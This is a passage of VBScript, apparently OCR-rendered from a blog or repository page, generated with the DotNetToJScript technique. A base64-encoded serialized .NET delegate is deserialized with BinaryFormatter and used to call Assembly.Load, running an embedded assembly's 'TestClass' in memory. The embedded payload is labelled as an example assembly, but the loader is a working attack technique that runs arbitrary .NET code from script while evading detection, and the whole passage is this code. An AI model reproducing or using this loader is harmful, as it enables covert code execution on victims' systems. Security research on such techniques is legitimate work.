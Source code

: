 ```
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADEJwAAAAAAAAAAAADeJwAAACAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAA0CcAAAAAAAAAAAAAAABfQ29yRGxsTWFpbgBtc2NvcmVlLmRsbAAA"
s = s & "AAAA/yUAIAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABABAAAAAYAACAAAAAAAAAAAAAAAAA"
s = s & "AAABAAEAAAAwAACAAAAAAAAAAAAAAAAAAAABAAAAAABIAAAAWEAAALADAAAAAAAAAAAAALADNAAA"
s = s & "AFYAUwBfAFYARQBSAFMASQBPAE4AXwBJAE4ARgBPAAAAAAC9BO/+AAABAAAAAQAAAAAAAAABAAAA"
s = s & "AAA/AAAAAAAAAAQAAAACAAAAAAAAAAAAAAAAAAAARAAAAAEAVgBhAHIARgBpAGwAZQBJAG4AZgBv"
s = s & "AAAAAAAkAAQAAABUAHIAYQBuAHMAbABhAHQAaQBvAG4AAAAAAAAAsAQQAwAAAQBTAHQAcgBpAG4A"
s = s & "ZwBGAGkAbABlAEkAbgBmAG8AAADsAgAAAQAwADAAMAAwADAANABiADAAAABiACUAAQBDAG8AbQBt"
s = s & "AGUAbgB0AHMAAABFAHgAYQBtAHAAbABlACAAQQBzAHMAZQBtAGIAbAB5ACAAZgBvAHIAIABEAG8A"
s = s & "dABOAGUAdABUAG8ASgBTAGMAcgBpAHAAdAAAAAAAIgABAAEAQwBvAG0AcABhAG4AeQBOAGEAbQBl"
s = s & "AAAAAAAAAAAASAAQAAEARgBpAGwAZQBEAGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAAEUAeABhAG0A"
s = s & "cABsAGUAQQBzAHMAZQBtAGIAbAB5AAAAMAAIAAEARgBpAGwAZQBWAGUAcgBzAGkAbwBuAAAAAAAx"
s = s & "AC4AMAAuADAALgAwAAAASAAUAAEASQBuAHQAZQByAG4AYQBsAE4AYQBtAGUAAABFAHgAYQBtAHAA"
s = s & "bABlAEEAcwBzAGUAbQBiAGwAeQAuAGQAbABsAAAAYgAfAAEATABlAGcAYQBsAEMAbwBwAHkAcgBp"
s = s & "AGcAaAB0AAAAQwBvAHAAeQByAGkAZwBoAHQAIACpACAASgBhAG0AZQBzACAARgBvAHIAcwBoAGEA"
s = s & "dwAgADIAMAAxADcAAAAAACoAAQABAEwAZQBnAGEAbABUAHIAYQBkAGUAbQBhAHIAawBzAAAAAAAA"
s = s & "AAAAUAAUAAEATwByAGkAZwBpAG4AYQBsAEYAaQBsAGUAbgBhAG0AZQAAAEUAeABhAG0AcABsAGUA"
s = s & "QQBzAHMAZQBtAGIAbAB5AC4AZABsAGwAAABAABAAAQBQAHIAbwBkAHUAYwB0AE4AYQBtAGUAAAAA"
s = s & "AEUAeABhAG0AcABsAGUAQQBzAHMAZQBtAGIAbAB5AAAANAAIAAEAUAByAG8AZAB1AGMAdABWAGUA"
s = s & "cgBzAGkAbwBuAAAAMQAuADAALgAwAC4AMAAAADgACAABAEEAcwBzAGUAbQBiAGwAeQAgAFYAZQBy"
s = s & "AHMAaQBvAG4AAAAxAC4AMAAuADAALgAwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAACAAAAwAAADwNwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVm"
s = s & "bGVjdGlvbi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA"
entry_class = "TestClass"

Dim fmt, al, d, o
Set fmt = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
Set al = CreateObject("System.Collections.ArrayList")
al.Add Empty

Set d = fmt.Deserialize_2(Base64ToStream(s))
Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)

End Sub

SetVersion
On Error Resume Next
Run
If Err.Number <> 0 Then
  DebugPrint Err.Description
  Err.Clear
End If
%>
-–>
{% endhighlight %}

```